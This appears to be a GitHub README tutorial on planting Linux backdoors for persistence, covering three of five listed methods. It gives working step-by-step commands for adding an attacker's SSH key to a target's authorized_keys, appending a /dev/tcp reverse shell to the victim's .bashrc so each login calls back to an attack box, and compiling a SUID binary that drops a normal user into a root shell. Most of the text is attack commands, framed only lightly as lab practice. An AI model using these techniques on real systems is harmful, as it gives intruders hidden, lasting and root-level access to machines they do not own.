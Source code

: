 # backdoors

1.ssh\
2.bashrc\
3.suid\
4.cron\
5.php

# //------------------------------------
# 1. SSH Key Access
SSH keys provide extreme convenience for system administrators, however, they also provide convenient backdoors for attackers. Start on your host by generating an SSH key with the command:
\
ssh-keygen\
\
![image](https://raw.githubusercontent.com/DDNvR/backdoors/main/images/sshkeygen.png)
\
This should generate two files an id_rsa.pub which is your public key, and id_rsa which is your private key.\
\
Now that the keys are generated switch back over to the target box and cd to your user's respective home directory (cd ~). As you can see in the image below there was no .ssh directory or authorized_keys file. This is no issue as you can create them with the commands:\
\
mkdir .ssh\
touch authorized_keys

![image](https://github.com/DDNvR/backdoors/blob/main/images/authorizedkeys.png)

\
With that taken care of, back on your attacker box, cat you id_rsa.pub (the public key and copy the entire output.

![image](https://github.com/DDNvR/backdoors/blob/main/images/keyshow.png)

\
All that is left to do is to echo the output of your id_rsa.pub into the authorized_keys file on the target box. I always like to double-check key was formatted properly by taking a look at the authorized_keys file. Alternatively to echoing the contents of your public key to the authorized_keys file, if you have ssh access to the target box you can utilize the text editor of your choice and copy + paste the contents.

![image](https://github.com/DDNvR/backdoors/blob/main/images/addkey.png)

\
Now to utilize the backdoor all you have to do is ssh to the target box and no matter what they change their password to you will always have key access to the host.\
\
Note: make sure to use -i [private key file] in your ssh command to specify you want to make use of key authentication.\

# //------------------------------------
# Bashrc Backdoor
The .bashrc file, located in every user's home directory is rarely checked by the average user, making this one of my favorite spots to stick a backdoor.\
\
Ensure you are in your user’s home directory by issuing the command:\
\
cd ~\
\
Now that you are in their home directory simply echo the following and direct the output to append(not overwrite the .bashrc file):\
\
echo ‘bash -i >& /dev/tcp/[attack box ip address]/[port] 0>&1’ >> ~/.bashrc\
\
Confirm the aforementioned command completed successfully my examining the end of the .bashrc file with:\
\
tail ~/.bashrc\
\
With that established, all that is left to do is set up a listener. Now every time that user logs in to the box it will call out to your attack box on the specified port number! To simulate this in a lab environment simply exit the ssh session and re-login with the key persistence we set up earlier. This login will trigger the reverse shell to call out.\

![image](https://github.com/DDNvR/backdoors/blob/main/images/bashrc.png)

# //------------------------------------
# SUID Backdoor
SUID binaries are a popular method to privilege escalate on a Linux system. For our final backdoor method, we are going to create our own that drops us into a root shell from a normal user. This method combined with a web shell can be a devastating combo, as you can go from a web shell to the root user in a matter of minutes.\
\
Note: This can be compiled on the target box provided it has gcc installed. In the case it does not (like in my example) I simply compiled it on my attack box and transferred the final product over to the target.\
\
Start by creating a C file with the following command\
\
echo ‘int main() { setresuid(0,0,0,); system(“/bin/sh”); }’ > privshell.c\
\
Compile this new C file to a system binary with:\
\
gcc -o privshell privshell.c\
\
Remove the original C file as seen in the image, and change the ownership of the file (if you created it as the root user it will already be owned by root, however it does not hurt to double-check).\
\
chown root:root privshell\
\
Add the SUID permissions to the file with:\
\
chmod u+s privshell\
\
Finally copy the file to a spot a normal user can access like /tmp or /var/tmp, and switch to a normal user.\

![image](https://github.com/DDNvR/backdoors/blob/main/images/suidbackdoor.png)

\
All that is left to do is execute the new malicious SUID binary and gain root privileges without ever authenticating with a password!\

![image](https://github.com/DDNvR/backdoors/blob/main/images/suidbackdoor2.png)

\
We covered a lot of ground today, thus I recommend finding two Linux virtual machines to practice these on. In the process of making this guide, I stumbled upon a lot of excellent resources if you would like to read further into the subject, happy hacking.\
